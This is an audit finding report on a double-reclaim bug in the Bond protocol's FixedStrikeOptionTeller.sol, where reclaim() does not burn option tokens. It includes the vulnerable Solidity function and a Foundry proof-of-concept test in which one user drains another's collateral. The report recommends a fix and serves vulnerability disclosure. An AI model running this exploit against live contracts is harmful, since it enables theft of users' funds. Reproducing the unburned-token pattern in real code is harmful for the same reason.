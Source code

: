 # Findings:
| | Findings | Severity | Link to Original Report |
|-|-|-|-|
| 01. | Attacker can Steal Other User's Collateral  | High | [Link](https://github.com/sherlock-audit/2023-06-bond-judging/issues/73) |

## H-01. Attacker can Steal Other User's Collateral
### Summary
The FixedStrikeOptionTeller.sol contract contains a vulnerability that allows an attacker to steal collateral from other users after their options have expired. The issue lies in the reclaim function, which is responsible for allowing users to claim their collateral if they choose not to exercise the option.

### Vulnerability Detail
When a user triggers the reclaim() function, the total supply of the option token is stored in an "amount" variable, and the corresponding amount is transferred to the receiver. However, the option token is not burned during this operation. As a result, if the function is called multiple times by the receiver, the total supply remains the same and it repeatedly transfers the same amount to the receiver, ultimately draining the entire balance.

### Impact
This vulnerability enables an attacker to exhaust the balance of other users who have not reclaimed their collateral after the expiration of their options.

### Code Snippet
https://github.com/sherlock-audit/2023-06-bond/blob/main/options/src/fixed-strike/FixedStrikeOptionTeller.sol#L395
```
    function reclaim(FixedStrikeOptionToken optionToken_) external override nonReentrant {
        // Load option parameters
        (
            ERC20 payoutToken,
            ERC20 quoteToken,
            uint48 eligible,
            uint48 expiry,
            address receiver,
            bool call,
            uint256 strikePrice
        ) = optionToken_.getOptionParameters();

        // Retrieve the internally stored option token with this configuration
        // Reverts internally if token doesn't exist
        FixedStrikeOptionToken optionToken = getOptionToken(
            payoutToken,
            quoteToken,
            eligible,
            expiry,
            receiver,
            call,
            strikePrice
        );

        // Revert if token does not match stored token
        if (optionToken_ != optionToken) revert Teller_UnsupportedToken(address(optionToken_));

        // Revert if not expired
        if (uint48(block.timestamp) < expiry) revert Teller_NotExpired(expiry);

        // Revert if caller is not receiver
        if (msg.sender != receiver) revert Teller_NotAuthorized();

        // Transfer remaining collateral to receiver
        uint256 amount = optionToken.totalSupply();
        if (call) {
            payoutToken.safeTransfer(receiver, amount);
        } else {
            // Calculate amount of quote tokens equivalent to amount at strike price
            uint256 quoteAmount = amount.mulDiv(strikePrice, 10 ** payoutToken.decimals());
            quoteToken.safeTransfer(receiver, quoteAmount);
        }
    }
```

### Tool used
Manual Review
Foundry

### Proof of Concept:
Add the test to the existing setUp and run it.
```
    function test_double_reclaim() public {
        // Deploy call option token with receiver as alice.
        uint256 strikePrice = 5 * 10 ** def.decimals();
        FixedStrikeOptionToken optionToken = teller.deploy(
            abc,
            def,
            uint48(0),
            uint48(block.timestamp + 8 days),
            alice,
            false,
            strikePrice
        );

        //Deploy call option token with receiver as bob.
        FixedStrikeOptionToken optionToken1 = teller.deploy(
            abc,
            def,
            uint48(0),
            uint48(block.timestamp + 8 days),
            bob,
            false,
            strikePrice
        );

        uint256 amount = 100 * 10 ** abc.decimals();

        // Alice and Bob Mints option tokens by depositing collateral (quote tokens)
        vm.prank(alice);
        teller.create(optionToken, amount);

        vm.prank(bob);
        teller.create(optionToken1, amount);

        // Warp forward past expiry
        vm.warp(block.timestamp + 9 days);


        //Alice reclaims twice, effectively stealing Bob's Collateral.
        vm.startPrank(alice);
        teller.reclaim(optionToken);
        teller.reclaim(optionToken); 
        vm.stopPrank();
    }
```

### Recommendation
Burn the Option Token in the reclaim function.
